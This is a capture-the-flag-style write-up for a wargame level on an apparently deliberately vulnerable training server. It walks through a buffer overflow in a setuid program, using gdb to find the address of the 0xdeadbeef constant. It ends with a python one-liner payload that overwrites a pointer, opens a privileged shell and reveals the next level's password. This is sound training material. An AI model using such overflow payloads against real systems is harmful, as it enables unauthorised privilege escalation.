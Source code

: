 # Level15

## This level's goal
- Memory routine pointer

***

```
[level15@ftz level15]$ ls -l
-rwsr-x---    1 level16  level15     13801 Dec 10  2002 attackme
-rw-r-----    1 root     level15       185 Dec 10  2002 hint

[level15@ftz level15]$ cat hint

#include <stdio.h>

main()
{ 
  int crap;
  int *check;
  char buf[20];
  fgets(buf,45,stdin);
  if (*check==0xdeadbeef)
   {
     setreuid(3096,3096);
     system("/bin/sh");
   }
}
```

This level seems like level14, but there is the difference of check's pointer.

```
[level15@ftz tmp]$ cat distance.c
#include <stdio.h>
main()
{
  int crap;
  int *check;
  char buf[20];
  fgets(buf,45,stdin);
  if (*check==0xdeadbeef)
   {
     setreuid(3096,3096);
     system("/bin/sh");
   }
   printf("Input is : %s\n &buf   : %p\n &check : %p\n &crap  : %p\n", buf, buf, &check, &crap);
}

[level15@ftz tmp]$ gcc distance.c -o distance
[level15@ftz tmp]$ ./distance
Input is :
 &buf   : 0xbffff3a0
 &check : 0xbffff3c8
 &crap  : 0xbffff3cc
```

As above, buf(20bytes) + dummy(20bytes) + \*check(4bytes) + crap(4bytes) + dummy(8bytes) + SFP(4bytes) + RET(4bytes)

```
[level15@ftz level15]$ gdb -q tmp/attackme
(gdb) disas main
0x080484b0 <main+32>:   cmpl   $0xdeadbeef,(%eax)
(gdb) break *0x080484b0
(gdb) run
(gdb) x/16x $esp
0xbfffe3b0:     0x41414141      0x4213000a      0xbfffe3d8      0x08048471
0xbfffe3c0:     0x08049560      0x08049668      0x4001582c      0x080483be
0xbfffe3d0:     0x08048308      0x42130a14      0xbfffe3e8      0x0804831e
0xbfffe3e0:     0x4200af84      0x42130a14      0xbfffe408      0x42015574

(gdb) x/x 0xbfffe3e8
0xbfffe3e8:     0xbfffe408

(gdb) x/x 0xbfffe408
0xbfffe408:     0x00000000

(gdb) info registers
eip            0x80484b0        0x80484b0

(gdb) x/4x 0x80484b0
0x80484b0 <main+32>:    0xbeef3881      0x2575dead      0x6808ec83      0x00000c18

(gdb) x/4x 0x80484b2
0x80484b2 <main+34>:    0xdeadbeef      0xec832575      0x0c186808      0x18680000
```

The deadbeef's memory is 0x80484b2, so the attack code is 40 bytes dummy strings + "\xb2\x84\x04\x08".

```
[level15@ftz level15]$ (python -c 'print "A"*40+"\xb2\x84\x04\x08"'; cat) | ./attackme
id
uid=3096(level16) gid=3095(level15) groups=3095(level15)

my-pass
Level16 Password is "about to cause mass".
```
